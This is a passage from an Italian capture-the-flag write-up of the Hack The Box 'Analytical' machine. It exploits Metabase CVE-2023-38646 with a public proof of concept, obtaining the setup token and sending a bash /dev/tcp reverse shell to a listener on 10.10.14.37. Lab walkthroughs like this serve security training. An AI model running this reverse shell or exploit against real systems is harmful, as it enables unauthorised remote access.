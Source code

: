 ```bash
Found: data.analytical.htb

Progress: 600 / 4990 (12.02%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/11/06 16:59:56 Finished
===============================================================
```

# GAINING AN INITIAL FOOTHOLD 

Ho provato ad accedere col credenziali standard come admim:admin, ecc.. e anche l'indirizzo email trovato in precedenza ma non ho ottenuto nessun accesso.

Notiamo che il software si chiama Metabase cerchiamo su google se troviamo qualcosa 
Ho trovato [questa](https://github.com/m3m0o/metabase-pre-auth-rce-poc)repo su git hub dove si fa riferimento alla  CVE-2023-38646 Metabase Pre-Auth RCE 

Scarichiamo e vediamo se funziona.

Dalla info nel README.md  vediamo che lo script python a bisogno di 3 parametri 
- -u = url 
- -t = setup token
- -c = command

il setup token  può essere ottenuto tramite l'endpoint /api/session/properties. 
![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/analytical3.htb.png)

come comando mettiamo la seguente revshell
```bash
bash -i >& /dev/tcp/10.10.14.37/443 0>&1
```

ci mettiamo in ascolto con nc 
```bash
┌──(root㉿kali)-[/home/kali/htb/analytical]
└─# nc -lvnp 443
listening on [any] 443 ...
```

impostiamo lo script e lo eseguiamo 

```bash
┌──(root㉿kali)-[/home/kali/htb/analytical/metabase-pre-auth-rce-poc]
└─# python3 main.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.37/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent

```
